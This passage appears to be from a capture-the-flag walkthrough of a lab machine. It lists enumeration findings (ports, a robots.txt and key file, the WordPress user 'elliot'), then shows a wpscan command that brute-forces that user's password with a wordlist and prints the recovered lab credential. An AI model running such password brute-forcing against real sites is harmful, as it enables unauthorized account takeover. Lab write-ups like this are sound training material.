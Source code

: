 ![writeup.enumeration.steps.5.2](./screenshot04a.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
80/tcp   |  http      |  Apache httpd
443/tcp  |  ssl/http  |  Apache httpd
```
#### Files
``` {.python .numberLines}
http://192.168.92.134/robots.txt
http://192.168.92.134/key-1-of-3.txt
```
#### Users
``` {.python .numberLines}
wordpress: elliot
```

\newpage
## Phase #2: Exploitation
1\. We confirm that the username is indeed valid from Wordpress error message for incorrect password. We then use `wpscan` to bruteforce password for user `elliot` using the trimmed dictionary file and find a match:  
``` {.python .numberLines}
wpscan --url http://192.168.92.134 -P fsocity.dic.trimmed -U elliot
  [i] Valid Combinations Found:
   | Username: elliot, Password: ER28-0652

```
